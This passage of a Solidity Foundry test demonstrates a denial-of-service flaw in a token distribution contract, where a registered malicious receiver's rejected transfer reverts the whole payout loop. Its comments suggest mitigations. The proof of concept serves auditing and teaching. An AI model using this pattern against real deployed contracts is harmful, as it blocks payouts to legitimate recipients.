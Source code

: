 ```solidity
        participant2 = address(0x2222);
        
        // Register normal participants in the distribution contract.
        distribution.addParticipant(participant1);
        distribution.addParticipant(participant2);
        
        // Deploy the malicious actor contract.
        maliciousReceiver = new MaliciousReceiver();
    }
    
    // Test function demonstrating the vulnerability.
    // Using the balanceLog modifier as required.
    function testExploit() public balanceLog {
        // Ensure the test contract has enough ETH.
        vm.deal(address(this), 10 ether);
        
        uint256 amountPerParticipant = 100 * 1e18;
        
        // ============================================
        // Demonstration Step 1:
        // Distribution among normal participants works correctly.
        // ============================================
        distribution.distribute(amountPerParticipant);
        
        // Validate that participant1 and participant2 received tokens.
        uint256 balance1 = token.balanceOf(participant1);
        uint256 balance2 = token.balanceOf(participant2);
        require(balance1 == amountPerParticipant, "Participant 1 did not receive the correct amount");
        require(balance2 == amountPerParticipant, "Participant 2 did not receive the correct amount");
        
        // ============================================
        // Demonstration Step 2:
        // Register the malicious contract as a participant.
        // When distribute() is called, the transfer to the malicious contract will revert,
        // blocking the entire distribution process.
        // ============================================
        distribution.addParticipant(address(maliciousReceiver));
        
        // Expect the distribution to revert due to malicious receiver rejecting the token transfer.
        vm.expectRevert(bytes("Token transfer rejected by malicious receiver"));
        distribution.distribute(amountPerParticipant);
        
        // Educational Note:
        // The vulnerability arises because the distribution loop requires every token.transfer call to succeed.
        // A single failing transfer (as simulated by the malicious contract) causes the entire loop to revert.
        // To mitigate this risk, developers can implement alternatives:
        // - Use pull-based withdrawals where recipients claim tokens.
        // - Log failed transfers and allow manual recovery instead of reverting the entire transaction.
    }
}
```

---